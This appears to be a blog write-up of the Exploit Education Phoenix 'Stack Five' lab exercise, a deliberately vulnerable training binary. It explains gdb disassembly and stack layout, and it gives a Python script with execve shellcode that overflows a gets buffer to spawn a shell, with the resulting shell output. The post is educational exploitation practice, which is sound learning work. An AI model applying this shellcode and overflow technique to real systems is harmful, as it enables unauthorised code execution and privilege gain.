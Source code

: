 ```yaml
---
layout: post
title: Stack Five Writeup (Code Execution) - Exploit Education Lab Exercise
categories: [security, binary-exploit, reverse-engineering, friday-gems]
tags: [security, binary-exploitation, friday-gems]
description: A comprehensive writeup that helps to understand Stack Five exercise stack-overflow vulnerability with learning resources.
---
```


### Previous Writeup: 

1. [Stack Zero Writeup - Exploit Education Lab Exercise](https://shivasurya.me/security/binary-exploit/reverse-engineering/friday-gems/2023/01/12/exploit-education-stack-zero-exercise-writeup.html)
2. [Stack One Writeup - Exploit Education Lab Exercise](https://shivasurya.me/security/binary-exploit/reverse-engineering/friday-gems/2023/01/20/exploit-education-stack-one-exercise-writeup.html)
3. [Stack Two Writeup - Exploit Education Lab Exercise](https://shivasurya.me/security/binary-exploit/reverse-engineering/friday-gems/2023/01/26/exploit-education-stack-two-exercise-writeup.html)
4. [Stack Three Writeup - Exploit Education Lab Exercise](https://shivasurya.me/security/binary-exploit/reverse-engineering/friday-gems/2023/01/27/exploit-education-stack-three-exercise-writeup.html)
5. [Stack Four Writeup - Exploit Education Lab Exercise](https://shivasurya.me/security/binary-exploit/reverse-engineering/friday-gems/2023/01/28/exploit-education-stack-five-exercise-writeup.html)

If you're learning and writing binary exploits, I would strongly recommend you to take [Architecture 1001: x86-64 Assembly](https://p.ost2.fyi/courses/course-v1:OpenSecurityTraining2+Arch1001_x86-64_Asm+2021_v1/course/) course by `Xeno Kovah`. They cover a wide variety of learning assembly instructions which will be really helpful to understand the exploits.

If you haven't done setting-up your lab, feel free to check out my previous article on [Exploit.education lab setup](https://shivasurya.me/security/binary-exploit/reverse-engineering/friday-gems/2023/01/06/exploit-education-lab-setup.html)

### Quick Overview

Similar to Stack Four, Stack Five exercise motives are smashing the stack, overwrite return address (`$rsp`) and redirect the program to execute shellcode. Similar to previous stack post series, `gets` function is utilized which can pave way to overflow and execute shellcode (code execution) in the context of binary.

### Disassemble

Disassembling the code will get you overall idea behind the stack-five code, One can use `gdb ./stack-five` to start debugging it in runtime.

1. `gdb ./stack-five`
2. Type `disassemble main` to get the disassembled code (assembly)

```assembly
   0x00000000004005a4 <+0>:     push   rbp
   0x00000000004005a5 <+1>:     mov    rbp,rsp
   0x00000000004005a8 <+4>:     sub    rsp,0x10
   0x00000000004005ac <+8>:     mov    DWORD PTR [rbp-0x4],edi
   0x00000000004005af <+11>:    mov    QWORD PTR [rbp-0x10],rsi
   0x00000000004005b3 <+15>:    mov    edi,0x400620
   0x00000000004005b8 <+20>:    call   0x400400 <puts@plt>
   0x00000000004005bd <+25>:    mov    eax,0x0
   0x00000000004005c2 <+30>:    call   0x40058d <start_level>
   0x00000000004005c7 <+35>:    mov    eax,0x0
   0x00000000004005cc <+40>:    leave
   0x00000000004005cd <+41>:    ret
```

`> disassemble start_level`

```assembly
   0x000000000040058d <+0>:     push   rbp
   0x000000000040058e <+1>:     mov    rbp,rsp
   0x0000000000400591 <+4>:     add    rsp,0xffffffffffffff80
   0x0000000000400595 <+8>:     lea    rax,[rbp-0x80]
   0x0000000000400599 <+12>:    mov    rdi,rax
   0x000000000040059c <+15>:    call   0x4003f0 <gets@plt>
   0x00000000004005a1 <+20>:    nop
   0x00000000004005a2 <+21>:    leave
   0x00000000004005a3 <+22>:    ret
```

Before taking a look at the code, if you disassembled the stack-five using gdb to view the assembly instruction, you may notice the puts, start_level and gets function calls with parameters. So basically when you hit `r` in gdb without breakpoint,

1. Greet with `Welcome to phoenix/stack-five, brought to you by https://exploit.education` message via Puts (aka printf) method
3. Invokes `start_level` function `0x4005c2`
4. Accepts user input via `gets` method with `buffer` memory address.
5. The program automatically exits from `main` method returning back to invoker.

### Primary Goal

The primary goal of this exercise is to make you overwrite the return address stack in `start_level` redirect to `shellcode` and gain code execution. If you remember from previous writeups, the next instruction (return address) as `$rsp` stack pointer stays in stack and consumed by `$rip` register aka instruction pointer.

![Illustration of Stack Five exploit](/assets/media/stack-five-stack-overflow.png)

### Memory Allocation

As you see that the `buffer` variable isn't dynamically allocated, they are allocated in the stack frame same as `start_level` function gets executes. The main function starts executing my pushing `$rbp` to stack at `0x7fffffffe660` and then `rsp` to `$rbp-0x10` (`0x7fffffffe648`) as expected the stack grows from top (higher memory address) to bottom (lower memory address). 

![Stack Memory Layout from $rbp till $rsp](/assets/media/exploit-education-phoenix-stack-five-rbp.jpg)

You can see that `buffer` (64 bytes) gets written at `$rbp-0x80` i.e `0x7fffffff45c0` and `$rbp` register (8 bytes) at `rbp-0x10` i.e `0x7fffffffe648`. Now that you got the overall idea of the memory layout of the stack, you can now go ahead blow up the stack to overwrite `$rsp` aka stack pointer stored in stack. If you play around with these memory layout behaviour, you can note that the char `buffer` variable writes from `$rbp-0x80` towards `$rbp-0x10` i.e `0x7fffffffe648`.

<sup> *check `Trial and Error section` to learn about why address slightly differs while executing in gdb vs seperate program invoked from shell</sup>

### Exploit

As we know that `gets` function prone to stack/buffer overflow based on context, We're about to carefully plan the exploit and plant the shellcode within the buffer and overwrite `$rbp` base pointer, `$rsp` stack pointer and redirect the program to shellcode address. Unlike real word scenario such as `ASLR - Address Layour Randomization` and other preventions in place, We now get a chance to hardcode the `buffer` address which 💯% static in this environment. Let's now visit the malicious buffer construction,

1. Initialize the buffer with `NOP` instructions `0x90` for safety
2. Place the exact shellcode 
3. Fill the buffer with remaining character (`0x41` - A) i.e (size of buffer) minus (above filled character length)
4. Overwrite the `$rbp` with 8 characters (say 8 bytes)
5. Time to overwrite the `$rsp` with actual buffer start address i.e `0x7fffffff45f0`

So, here goes the exploit buffer generated with python code,

```python
# Initial Padding with NOP instruction
buf = "\x90" * 30 
# Actual SHELL Code
buf += "\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"
# Remaining padding 
buf += "A" * (128 - len(buf)) 
# Overwrite $rbp (base pointer)
buf += 'BBBBBBBB'
# Overwrite $rsp (consumed by $rip - instruction pointer) 
buf += '\xf0\xe5\xff\xff\xff\x7f' 
# Finally print and redirect this ouput to stack-five binary
print buf 
```

### Result

`> (python $HOME/stack-five.py; cat) | /opt/phoenix/amd64/stack-five`

```shell
user@phoenix-amd64:/opt/phoenix/amd64$ (python $HOME/stack-five.py; cat) | /opt/phoenix/amd64/stack-five
Welcome to phoenix/stack-five, brought to you by https://exploit.education
id
uid=1000(user) gid=1000(user) euid=405(phoenix-amd64-stack-five) egid=405(phoenix-amd64-stack-five) groups=405(phoenix-amd64-stack-five),27(sudo),1000(user)
whoami
phoenix-amd64-stack-five
```

There you go! 🎉 You've officially `pwned` the `binary` and possibly you could control the program flow and may 
eventually perform remote code execution in the system. 🪲



### Trial & Errors

I'm including this trial and error section to learn more about debugging and failures I came across while solving this problem,

1. #### Why does address differs in `GDB` vs while executing from shell?

   The answer boils down to the environment variables that are automatically being set by `gdb` such as `LINES` & `COLUMNS`. So, when the environment variables are added to the program the stack gets pushed down and thus address varies.

   - #### How do I fix this and simulate similar to real world program execution?

      1. Simply use `unset env LINES` & `unset env COLUMNS` commands to reset environment variables in `gdb`
      2. Use mature tools like `pwntools` - [python library](https://github.com/Gallopsled/pwntools) which helps write exploits and hooks to gdb automatically upon execution.

2. #### My exploit successfully invokes shell (/bin/dash) but doesn't ouput any results or terminates abruptly?

   That's probably because you haven't included the output redirection to your exploit script after invoking shell. For instance `Generated Shell Code; Cat` cat command can help in redirecting the output of the shell commands and wait listening like interactive mode. Check `Results` section for the exact exploit code and appended command.

### Source and Reference:

1. Stack Five Exercise: [Exploit Education](https://exploit.education/phoenix/stack-five/)
2. [Architecture 1001: x86-64 Assembly](https://p.ost2.fyi/courses/course-v1:OpenSecurityTraining2+Arch1001_x86-64_Asm+2021_v1/course/)

![buffer-overflow-meme](/assets/media/buffer-overflow-meme-2.jfif)

### Closing Note:

I hope this post is helpful for vulnerability researcher 🔍 & code reviewers, For bugs,hugs & discussion, DM in [Twitter](https://twitter.com/sshivasurya). Opinions are my own and not the views of my employer.

